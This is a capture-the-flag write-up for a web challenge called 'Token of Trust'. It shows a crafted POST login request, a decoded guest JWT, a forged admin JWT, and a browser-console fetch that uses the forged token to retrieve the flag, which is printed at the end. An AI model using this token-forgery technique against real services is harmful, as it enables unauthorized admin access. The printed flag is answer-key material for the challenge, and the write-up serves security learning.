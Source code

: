 ## Token of Trust

---

### Challenge

At first, this web app seems straightforward, but there’s something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system’s trust can be manipulated.

The secret is hidden within the way this token is used. Can you find the key to unlock what’s been concealed? The challenge is waiting for you to crack it.

Submit your answer in the following format: ACECTF{3x4mpl3_fl4g}

[](http://34.131.133.224:9999/)

---

### Solution

As the webpage instructs us, we try to navigate to /login page, only to find that we need to send our requests with JSON payload `{"user":"ace","pass":"ctf"}` (the password is not verified so any random one will work). Also, the request has to be in POST form.

When we check the normal request to the website using [Burpsuit](https://portswigger.net/burp), we see that it is a GET request by default. We change the request to this:

```
POST /login HTTP/1.1
Host: 34.131.133.224:9999
Content-Type: application/json
Content-Length: 33
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json
Connection: close

{"user":"ace","pass":"ctf"}
```

Upon forwarding this request, the token is printed on the website `{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}`

Since it is a jwt token, we can check the payload and algorithm using [jwt.io](https://jwt.io/). Using the jwt decoder, we get the payload and algorithm.

![jwt decoding](../attachments/TT1.png)

Since we find that the user is specified as `guest`, instead of `ace` (our input), we can modify the user to `admin` and craft a new token using the jwt encoder like this one:

admin token: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.lo6cc_YVMrNFnffGek_avzLJ_mgkuvBsSz52NO3_6Kk`

Now that we have our token, we can pass it to the website using console. For that, we allow pasting in console and pass the following command:

```
fetch("http://34.131.133.224:9999/flag", {
    method: "POST",
    headers: {
        "Content-Type": "application/json"
    },
    body: JSON.stringify({ token: "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.lo6cc_YVMrNFnffGek_avzLJ_mgkuvBsSz52NO3_6Kk" })
}).then(response => response.text())
  .then(console.log);
```

This prints the flag in the console

---

### Flag

```
ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
